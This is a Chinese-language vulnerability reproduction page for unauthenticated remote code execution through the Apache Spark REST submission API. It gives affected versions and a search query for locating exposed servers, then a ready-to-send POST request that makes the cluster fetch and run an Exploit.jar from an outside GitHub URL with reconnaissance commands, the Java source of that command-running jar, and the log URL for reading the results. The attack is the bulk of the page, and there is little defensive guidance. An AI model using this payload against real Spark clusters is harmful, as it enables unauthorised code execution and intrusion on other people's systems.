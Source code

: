 # Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache Spark 3.1.2, 3.2.1, 3.3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark-Jobs"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648714918899-1bdd6f0c-f8fd-41e7-a89e-58efefb77413.png)

发送请求包

```php
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
# https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar
# Github代码为编译后的代码
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648715077646-aa01a6a0-fb6b-4bb7-9659-4b70ed5ad62a.png)

再访问获得的 submissionId Url查看结果

```php
/logPage/?driverId={submissionId}&logType=stdout
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648715186026-e56711ca-b56f-4a59-b380-efefcabf08f9.png)